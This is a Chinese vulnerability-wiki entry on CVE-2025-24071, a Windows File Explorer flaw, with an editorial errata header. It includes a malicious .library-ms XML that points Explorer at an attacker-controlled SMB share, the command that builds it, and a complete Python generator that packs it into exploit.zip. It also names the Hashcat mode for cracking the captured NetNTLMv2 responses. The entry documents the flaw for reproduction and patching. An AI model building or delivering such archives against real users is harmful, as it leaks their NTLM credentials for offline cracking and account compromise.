



# Windows-文件资源管理器欺骗漏洞-CVE-2025-24071

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Windows File Explorer .library-ms
- 文献类型：漏洞复现与生成器代码
- 版本、权限及部署边界：未修复Win11 23H2样例；用户解压/Explorer解析library-ms，受害机允许出站SMB及NTLM认证；具体build未列
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 泄露是NetNTLMv2挑战响应，不是直接读取本地NTLM密码哈希；离线破解能力依密码强度，不能等同立即账号接管
2. version只第一行Win10 1809漏实际多版本/Win11测试；影响清单正文漏Server2019非Core而代码包含，需统一官方矩阵
3. 脚本仅生成压缩包、不搭建捕获服务；缺SMB监听/认证策略说明和结果文本，截图未视检
4. 生成器会覆盖同名library-ms/固定exploit.zip并删除临时文件，需标示意工具副作用；文件名/IP未验证导致路径/XML问题，不可当稳健通用工具
5. 代码尾部称FTP/SMB发送文件与NTLM认证泄露效果不符，需清理；MSRC/研究与两个仓库来源齐全但未固定提交/KB

### 操作风险

生成器会覆盖同名library-ms/固定exploit.zip并删除临时文件，需标示意工具副作用；文件名/IP未验证导致路径/XML问题，不可当稳健通用工具

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-24071>
- 原文参考链接（未重新核验）：<https://cti.monster/blog/2025/03/18/CVE-2025-24071.html>
- 原文参考链接（未重新核验）：<https://github.com/0x6rss/CVE-2025-24071_PoC>
- 原文参考链接（未重新核验）：<https://github.com/ThemeHackers/CVE-2025-24071>
- 原文参考链接（未重新核验）：<http://schemas.microsoft.com/windows/2009/library>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

CVE-2025-24071 是 Windows 文件资源管理器中的一个欺骗漏洞，利用了 Windows 对 `.library-ms` 文件的隐式信任和自动解析特性。攻击者通过构造包含恶意 SMB 路径的 `.library-ms` 文件并打包为 ZIP/RAR 文件，解压时，Windows 资源管理器会自动尝试连接到指定的 SMB 服务器，从而泄露用户的 NTLM Hash。

参考链接：

- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-24071
- https://cti.monster/blog/2025/03/18/CVE-2025-24071.html
- https://github.com/0x6rss/CVE-2025-24071_PoC
- https://github.com/ThemeHackers/CVE-2025-24071

## 漏洞影响

```
Windows 10 Version 1809 for x64-based Systems
Windows 10 Version 1809 for 32-bit Systems
Windows Server 2025 (Server Core installation)
Windows Server 2025
Windows Server 2012 R2 (Server Core installation)
Windows Server 2012 R2
Windows Server 2016 (Server Core installation)
Windows Server 2016
Windows 10 Version 1607 for x64-based Systems
Windows 10 Version 1607 for 32-bit Systems
Windows 10 for x64-based Systems
Windows 10 for 32-bit Systems
Windows 11 Version 24H2 for x64-based Systems
Windows 11 Version 24H2 for ARM64-based Systems
Windows Server 2022, 23H2 Edition (Server Core installation)
Windows 11 Version 23H2 for x64-based Systems
Windows 11 Version 23H2 for ARM64-based Systems
Windows 10 Version 22H2 for 32-bit Systems
Windows 10 Version 22H2 for ARM64-based Systems
Windows 10 Version 22H2 for x64-based Systems
Windows 11 Version 22H2 for x64-based Systems
Windows 11 Version 22H2 for ARM64-based Systems
Windows 10 Version 21H2 for x64-based Systems
Windows 10 Version 21H2 for ARM64-based Systems
Windows 10 Version 21H2 for 32-bit Systems
Windows Server 2022 (Server Core installation)
Windows Server 2022
Windows Server 2019 (Server Core installation)
```

## 环境搭建

搭建一个未安装补丁的 Windows 11 Version 23H2 漏洞环境：

> 可以按 `Win+R` 键，输入 `winver` ，然后按 `Enter` 键查看 Windows 操作系统的版本号。




## 漏洞复现

通过 [该项目](https://github.com/ThemeHackers/CVE-2025-24071) 构造一个恶意压缩包 `exploit.zip`，压缩包中包含一个名为 `document.library-ms` 的恶意文件：

```
python exploit.py -f document -i 192.168.174.2
```




构造的恶意文件 `document.library-ms` 中包含一个 `<simpleLocation>` 标签，标签直接指向攻击者控制的 SMB 服务器：

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\192.168.174.2\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

由于 Windows 资源管理器隐式信任 `.library-ms` 文件，提取后，Windows 资源管理器会尝试自动解析 SMB 路径 `\\192.168.174.2\shared`，以收集元数据和索引文件信息，此操作将触发从受害者系统到攻击者控制的 SMB 服务器的隐式 NTLM 身份验证握手。攻击者控制的 SMB 服务器接收到 NTLMv2 Hash：




攻击者可以使用 Hashcat 对 NTLMv2 Hash 进行破解（`-m 5600`）。

## 漏洞 POC

```python
import os
import zipfile
import argparse
import time
import sys
import itertools
from colorama import init, Fore, Style

init()

def loading_animation(duration):
    """Display a simple loading animation for specified duration"""
    spinner = itertools.cycle(['-', '/', '|', '\\'])
    end_time = time.time() + duration
    while time.time() < end_time:
        sys.stdout.write(f'\r{Fore.YELLOW}Processing {next(spinner)}{Style.RESET_ALL}')
        sys.stdout.flush()
        time.sleep(0.1)
    sys.stdout.write('\r')

def print_ascii_art():
    """Print ASCII art banner"""
    art = r"""
          ______ ____    ____  _______       ___     ___    ___    _____        ___    _  _      ___    ______   __  
         /      |\   \  /   / |   ____|     |__ \   / _ \  |__ \  | ____|      |__ \  | || |    / _ \  |____  | /_ | 
        |  ,----' \   \/   /  |  |__    ______ ) | | | | |    ) | | |__    ______ ) | | || |_  | | | |     / /   | | 
        |  |       \      /   |   __|  |______/ /  | | | |   / /  |___ \  |______/ /  |__   _| | | | |    / /    | | 
        |  `----.   \    /    |  |____       / /_  | |_| |  / /_   ___) |       / /_     | |   | |_| |   / /     | | 
         \______|    \__/     |_______|     |____|  \___/  |____| |____/       |____|    |_|    \___/   /_/      |_| 
                                                
                                                
                                                Windows File Explorer Spoofing Vulnerability (CVE-2025-24071)
                    by ThemeHackers                                                                                                                                                           
    """
    print(f"{Fore.CYAN}{art}{Style.RESET_ALL}")

def show_affected_versions():
    """Display list of affected versions"""
    affected_versions = [
        "Windows 10 Version 1809 for x64-based Systems",
        "Windows 10 Version 1809 for 32-bit Systems",
        "Windows Server 2025 (Server Core installation)",
        "Windows Server 2025",
        "Windows Server 2012 R2 (Server Core installation)",
        "Windows Server 2012 R2",
        "Windows Server 2016 (Server Core installation)",
        "Windows Server 2016",
        "Windows 10 Version 1607 for x64-based Systems",
        "Windows 10 Version 1607 for 32-bit Systems",
        "Windows 10 for x64-based Systems",
        "Windows 10 for 32-bit Systems",
        "Windows 11 Version 24H2 for x64-based Systems",
        "Windows 11 Version 24H2 for ARM64-based Systems",
        "Windows Server 2022, 23H2 Edition (Server Core installation)",
        "Windows 11 Version 23H2 for x64-based Systems",
        "Windows 11 Version 23H2 for ARM64-based Systems",
        "Windows 10 Version 22H2 for 32-bit Systems",
        "Windows 10 Version 22H2 for ARM64-based Systems",
        "Windows 10 Version 22H2 for x64-based Systems",
        "Windows 11 Version 22H2 for x64-based Systems",
        "Windows 11 Version 22H2 for ARM64-based Systems",
        "Windows 10 Version 21H2 for x64-based Systems",
        "Windows 10 Version 21H2 for ARM64-based Systems",
        "Windows 10 Version 21H2 for 32-bit Systems",
        "Windows Server 2022 (Server Core installation)",
        "Windows Server 2022",
        "Windows Server 2019 (Server Core installation)",
        "Windows Server 2019"
    ]
    print(f"{Fore.GREEN}Affected versions:{Style.RESET_ALL}")
    for version in affected_versions:
        print(f"- {version}")

def create_exploit(file_name, ip_address):
    print_ascii_art()
    print(f"{Fore.GREEN}Creating exploit with filename: {file_name}.library-ms{Style.RESET_ALL}")
    print(f"{Fore.GREEN}Target IP: {ip_address}{Style.RESET_ALL}\n")

    library_content = f"""<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\{ip_address}\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>"""

    library_filename = f"{file_name}.library-ms"

    print(f"{Fore.BLUE}Generating library file...{Style.RESET_ALL}")
    loading_animation(1.5)
    try:
        with open(library_filename, 'w', encoding='utf-8') as f:
            f.write(library_content)
        print(f"{Fore.GREEN}✓ Library file created successfully{Style.RESET_ALL}")
    except IOError as e:
        print(f"{Fore.RED}✗ Error writing file: {e}{Style.RESET_ALL}")
        return

    print(f"\n{Fore.BLUE}Creating ZIP archive...{Style.RESET_ALL}")
    loading_animation(1.5)
    try:
        with zipfile.ZipFile('exploit.zip', 'w', zipfile.ZIP_DEFLATED) as zipf:
            zipf.write(library_filename)
        print(f"{Fore.GREEN}✓ ZIP file created successfully{Style.RESET_ALL}")
    except IOError as e:
        print(f"{Fore.RED}✗ Error creating ZIP file: {e}{Style.RESET_ALL}")
        return

    print(f"\n{Fore.BLUE}Cleaning up temporary files...{Style.RESET_ALL}")
    loading_animation(1.0)
    try:
        if os.path.exists(library_filename):
            os.remove(library_filename)
        print(f"{Fore.GREEN}✓ Cleanup completed{Style.RESET_ALL}")
    except OSError:
        print(f"{Fore.RED}✗ Warning: Could not delete {library_filename}{Style.RESET_ALL}")

    print(f"\n{Fore.GREEN}Process completed successfully!{Style.RESET_ALL}")
    print(f"Output file: {Fore.YELLOW}exploit.zip{Style.RESET_ALL}")
    print(f"Run this file on the victim machine and you will see the effects of the vulnerability such as using ftp smb to send files etc.")
if __name__ == "__main__":
    
    parser = argparse.ArgumentParser(description='Create an exploit ZIP file or show affected versions')
    parser.add_argument('-f', '--file-name', 
                        help='Name of the library file (without extension)')
    parser.add_argument('-i', '--ip-address', 
                        help='IP address (e.g., 192.168.1.111)')
    parser.add_argument('-afv', '--affected-versions', action='store_true', 
                        help='Display affected versions')

    args = parser.parse_args()


    if not (args.file_name or args.ip_address or args.affected_versions):
        print(f"{Fore.RED}✗ Error: No arguments provided{Style.RESET_ALL}")
        parser.print_help()
    
    elif args.affected_versions:
        show_affected_versions()
      
        if args.file_name and args.ip_address:
            print(f"\n{Fore.YELLOW}Proceeding with exploit creation...{Style.RESET_ALL}")
            create_exploit(args.file_name, args.ip_address)
       
        elif args.file_name or args.ip_address:
            print(f"\n{Fore.RED}✗ Error: Both --file-name and --ip-address are required for exploit creation{Style.RESET_ALL}")
    
   
    else:
        if args.file_name and args.ip_address:
            create_exploit(args.file_name, args.ip_address)
        else:
            print(f"{Fore.RED}✗ Error: Both --file-name and --ip-address are required{Style.RESET_ALL}")
            parser.print_help()
```

## 漏洞修复

- 微软已发布安全补丁，链接： https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-24071


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
